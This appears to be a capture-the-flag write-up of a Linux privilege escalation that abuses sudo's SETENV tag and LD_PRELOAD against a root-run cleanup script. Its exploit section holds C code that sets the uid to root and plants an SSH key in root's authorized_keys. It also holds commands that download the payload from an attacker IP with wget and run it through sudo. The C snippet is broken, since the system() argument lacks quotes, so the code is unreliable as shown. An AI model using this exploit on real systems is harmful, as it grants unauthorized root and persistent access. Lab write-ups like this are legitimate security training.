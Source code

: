 Privilege escalation   

Method : Abusing SETENV   

Learning SETENV.it seems important to figure out what it means and have a good understanding of how sudo handles environment variables. Checking the sudoers man page against what’s in this configuration, in the flags, there’s env_reset, which basically says that, because there’s no env_keep setting, none of waldo’s environment will be passed:

If set, sudo will run the command in a minimal environment containing the TERM, PATH, HOME, MAIL, SHELL, LOGNAME, USER, USERNAME and SUDO_* variables. Any variables in the caller’s environment that match the env_keep and env_check lists are then added, followed by any variables present in the file specified by the env_file option (if any). The default contents of the env_keep and env_check lists are displayed when sudo is run by root with the -V option. If the secure_path option is set, its value will be used for the PATH environment variable. This flag is on by default.

Next the SETENV tag says that as the caller, I can override env_reset using -E or by setting variables on the command line when I call sudo:

SETENV and NOSETENV

These tags override the value of the setenv option on a per-command basis. Note that if SETENV has been set for a command, the user may disable the env_reset option from the command line via the -E option. Additionally, environment variables set on the command line are not subject to the restrictions imposed by env_check, env_delete, or env_keep. As such, only trusted users should be allowed to set variables in this manner. If the command matched is ALL, the SETENV tag is implied for that command; this default may be overridden by use of the NOSETENV tag.

secure_path was also mentioned in the env_reset page, and is set here. It prevents the sudo caller from setting the $PATH variable:

secure_path Path used for every command run from sudo. If you don’t trust the people running sudo to have a sane PATH environment variable you may want to use this. Another use is if you want to have the ‘‘root path’’ be separate from the ‘‘user path’’. Users in the group specified by the exempt_group option are not affected by secure_path. This option is not set by default.

Reference Sudoers Man Page   
[https://linux.die.net/man/5/sudoers](https://linux.die.net/man/5/sudoers)

Inside the opt dir of in this box. There is a bash script owned by root and the user we owned can run the bash script as root

Theory

Reading the script and we found the script is using two bash cammand cat and truncate
It turns out there is a library path hijack to exploit cleanup.sh. I can pass a $LD_PRELOAD into sudo.

About LD_PRELOAD

If you set LD_PRELOAD to the path of a shared object, that file will be loaded before any other library (including the C runtime, libc.so). So to run ls with your special malloc() implementation, do this

To avoid this mechanism being used as an attack vector for suid/sgid executable binaries, the loader ignores LD_PRELOAD if ruid != euid. For such binaries, only libraries in standard paths that are also suid/sgid will be preloaded.

```bash
Sudo LD_PRELOAD=/path/to/my/malloc.so /bin/ls
```

Reference : [https://stackoverflow.com/questions/426230/what-is-the-ld-preload-trick](https://stackoverflow.com/questions/426230/what-is-the-ld-preload-trick)

Exploit

Save as /tmp/pe.c

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system(mkdir -p /root/.ssh; echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing' > /root/.ssh/authorized_keys);
}
```

compile it on own our machine because target machine has no gcc
```bash
gcc -fPIC -shared -o pe.so pe.c -nostartfiles
```

Wget the complie file to target /photobomb/source_images/ dir. The reason we put the file in that dir excuteing the cleanup script with sudo permision the file with jpg extention in that dir has change the ownership to root from that point we need to change our exploit file extention to jpg and excuteing the script its change the ownership . After that we change the extention back to .so and load the file to LD_PRELOAD varilable

```bash
wget http://10.10.16.8/pe.so
mv pe.so pe.so.jpg 
sudo /opt/cleanup.sh
mv pe.so.jpg pe.so
sudo LD_PRELOAD=~/photobomb/source_images/pe.so /opt/cleanup.sh
```

Referance :[ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#env-info]( https://book.hacktricks.xyz/linux-hardening/privilege-escalation#env-info)   
Alternative referance : [https://0xdf.gitlab.io/2020/09/26/htb-admirer.html](https://0xdf.gitlab.io/2020/09/26/htb-admirer.html)












